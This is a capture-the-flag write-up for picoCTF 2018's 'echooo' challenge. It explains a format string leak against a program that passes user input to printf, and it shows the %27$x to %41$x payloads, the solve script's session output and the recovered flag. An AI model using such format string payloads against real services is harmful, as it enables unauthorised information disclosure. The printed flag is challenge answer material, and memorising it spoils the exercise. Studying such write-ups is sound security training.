 # echooo 
Points: 300

## Category
Binary Exploitation

## Question
>This program prints any input you give it. Can you [leak](files/echo) the flag? Connect with `nc 2018shell1.picoctf.com 46960`. [Source](files/echo.c). 

### Hint
>If only the program used puts...

## Solution
A simple format string exploit.

Looking at the source code, we see that the flag is stored in the stack. All we have to do is to leak values from the stack to get the flag.

Doing some testing locally, we see that the flag starts at _%29$x_. This format simply takes the 29th argument and print it out as hex.

Since the buffer only accepts 64 bytes, we have to stagger the inputs.

```
$ python solve.py 
[+] Opening connection to 2018shell1.picoctf.com on port 46960: Done
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %27$x %28$x %29$x %30$x %31$x %32$x %33$x %34$x %35$x %36$x
[*] Flag Part 1: 6f636970 7b465443 6d526f66 735f7434 6e695274 615f7347 445f6552 65476e61 73753072 6237615f
> %37$x %38$x %39$x %40$x %41$x
[*] Flag Part 2: 32613463 a7d64 80487ab 1 ffe42d84
[+] Flag: picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}
[*] Closed connection to 2018shell1.picoctf.com port 46960
```

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}`

https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#echooo
